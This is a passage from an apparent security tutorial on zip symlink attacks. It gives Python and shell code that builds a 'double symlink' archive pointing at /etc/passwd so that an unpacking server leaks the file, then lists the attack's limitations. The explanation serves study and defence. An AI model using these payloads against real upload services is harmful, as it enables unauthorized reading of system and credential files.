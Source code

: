 For a double symlink attack (file symlink + dir symlink), we just combine the two methods and create two symlinks.

```python
# evil-link-dir.zip
# └── dirlink/           -> /some/readable/directory/
#     └── passwd.html    -> /etc/passwd
with zipfile.ZipFile("evil-link-dir-file.zip", "w", compression=zipfile.ZIP_DEFLATED) as zip:
  # Order matters! Write dir first, then file.
  info = zipfile.ZipInfo("dirlink")
  info.create_system = 0
  info.external_attr = (stat.S_IFLNK | 0o777) << 16
  zip.writestr(info, "/some/readable/directory/")

  info = zipfile.ZipInfo("dirlink/passwd.html")
  info.create_system = 0
  info.external_attr = (stat.S_IFLNK | 0o777) << 16
  zip.writestr(info, "/etc/passwd")
```

{% enddetails %}

{% details "With Shell Commands" %}
Shell commands also work. (Make sure to use `-y`/`--symlinks` when zipping symlinks. Otherwise, you'd be adding your actual `/etc/passwd`!)

Double symlink payload construction:

```sh
# Create our (soft) links.
ln -s /some/readable/directory/ dirlink
ln -s /etc/passwd dirlink/passwd.txt
# Zip the links. (Order matters!)
zip -y evil-link-dir-file dirlink dirlink/passwd.txt
```

Note that this approach will leave leftover files.
{% enddetails %}

#### Limitations of Zip Symlink Attacks

- Permissions on Linux.
  - To create a symlink, we need execute permissions in the source directory (where the linked file is located) and write/execute permissions in the target directory (where the symlink is created).[^ref-linuxlinkperm]
  - Reading a symlink requires execute permissions in the source directory, and read permissions on the source file.
- Permissions on Windows. By default, only Administrators have the privilege to [create symbolic links](https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/create-symbolic-links). This setting can be changed by [editing the local group policy](https://superuser.com/a/105381) or by directly enabling `SeCreateSymbolicLinkPrivilege`.
- Although symlink attacks are cool and all, they're relatively rare (in the wild) compared to Zip Slip. Perhaps symlinks are handled with extra care.

[^ref-linuxlinkperm]: Reference: [SO: Minimum Permissions Required to Create a Link to a File](https://stackoverflow.com/questions/40667014/linux-what-are-the-minimum-permissions-required-to-create-a-link-to-a-file)



[^really-by-extension]: Okay, some steps were skipped here for the sake of simplicity. The long answer is: reading a symlink also depends on permissions of the {% abbr "source file", "the file linked by the symlink" %} and the {% abbr "source directory", "the directory containing the source file" %}. ***If*** we can read files in our upload directory **and** if we have sufficient permissions, then we can (potentially) have arbitrary file read. See [Limitations](#limitations-of-zip-symlink-attacks).
[^deflate]: This is the same compression algorithm used in gzip (commonly used for transferring files across the web) and PNGs.
[^fifield]: Fifield's article on "a better zip bomb": *https://www.bamsoftware.com/hacks/zipbomb/*. (It may be blocked on some browsers.)
[^zip-spec]: Reference: [PKWare Mirror](https://pkware.cachefly.net/webdocs/casestudies/APPNOTE.TXT)